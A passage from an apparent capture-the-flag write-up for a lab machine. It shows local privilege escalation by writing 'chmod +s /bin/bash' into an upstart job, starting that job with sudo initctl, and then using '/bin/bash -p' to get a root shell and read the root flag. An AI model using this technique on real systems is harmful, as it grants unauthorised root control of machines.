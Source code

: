 ```console
install-completed start/running
journald start/running, process 566
log-rotate start/running, process 2051
neverware_daemon start/running, process 1936
neverware_fixhw stop/waiting
oobe_config_save stop/waiting
report-boot-complete stop/waiting
send-uptime-metrics stop/waiting
ui stop/waiting
ureadahead stop/waiting
usb_bouncer stop/waiting
test2 stop/waiting
```

We can see script format, Let’s try to inject a code which set SUID permission ```/bin/bash``` from that attack can takeover bash shell as root by modifying service ```test``` (which is customized service, does not come up as default job)

```console
katie@spectra ~ $ cat /etc/init/test5.config

description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    chmod +s /bin/bash

end script

```

Now let’s restart ```test``` service and run ```/bin/bash -p``` to get shell with SUID
```console
katie@spectra ~ $ sudo /sbin/initctl start test
test start/running, process 76277
katie@spectra ~ $ /bin/bash -p
bash-4.3# cat /root/root.txt
d44519713b889d5e1f9e536d0c6df2fc
```
